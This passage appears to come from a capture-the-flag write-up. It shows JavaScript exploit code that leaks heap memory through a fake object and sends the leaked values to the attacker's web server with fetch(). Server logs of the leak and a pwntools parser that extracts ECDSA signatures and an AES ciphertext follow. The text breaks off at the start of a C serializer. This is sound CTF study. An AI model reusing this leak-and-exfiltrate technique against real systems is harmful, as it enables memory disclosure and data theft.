 ```JavaScript
    // Read the leak
    const new_leak = BigInt(read(boba))
    hex(new_leak);
    leak   += '+'+ new_leak.toString(16);
    leaked += 0x08n;

    // Free the fake Boba to avoid note's amount exhausting
    del(boba);
  }

  // Send the leak back to the web server
  fetch("/"+leak);
}
```
We'll run this and receive the following at the web server:
```
172.29.40.192 - - [11/Jun/2025 17:27:45] "GET /exploit.html HTTP/1.1" 200 -
172.29.40.192 - - [11/Jun/2025 17:27:46] code 404, message File not found
172.29.40.192 - - [11/Jun/2025 17:27:46] "GET /a388b57302459761+82a20c75fc072e9+57bf78d424c79840+...
```
This means that we successfully leaked results of `trigger_encryption`.

## Exploitation: Crypto Puzzle

### Problem

Let's start thinking about what we should do with our heap leak. But what exactly did we leak? According to the decompiled code of the `trigger_encryption` function, there are two `secp256k1_ecdsa` signatures of known messages and the flag encrypted with `aes-128-cbc`. Let's write the code that will parse them from the bytes we leaked in the HTTP request from our exploit:
```Python
from sys import argv
from pwn import *

leak = argv[1]

leak_bytes = b''.join(p64(int(x, 16)) for x in leak.split('+'))
sig1       = leak_bytes[0x00*0:0x00*0+0x40]
sig2       = leak_bytes[0x50*1:0x50*1+0x40]
cipher     = leak_bytes[0x50*2:0x50*2+0x20]
```
It simply puts all the qwords we leaked together and then extracts our crypto values from them using known heap leak offsets.

After that, we come to another question: what is the format of the values we leaked? Here, we return to the strange thing we noticed in the `trigger_encryption` function — it saves its results without serialization. So, we have some platform-dependent format of signatures. Probably, we want to serialize them ourselves to use a more widely accepted format for future cracking. “Similia similibus curantur,” so let's write a small piece of C code that serializes our signatures using the same secp256k1 [library](https://github.com/bitcoin-core/secp256k1) but [compiled](./task/libsecp256k1.a) by ourselves:
```c
/*
 *  $ gcc -o convert convert.c libsecp256k1.a
 */
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <stdbool.h>

#include <unistd.h>
#include <secp256k1.h>

```
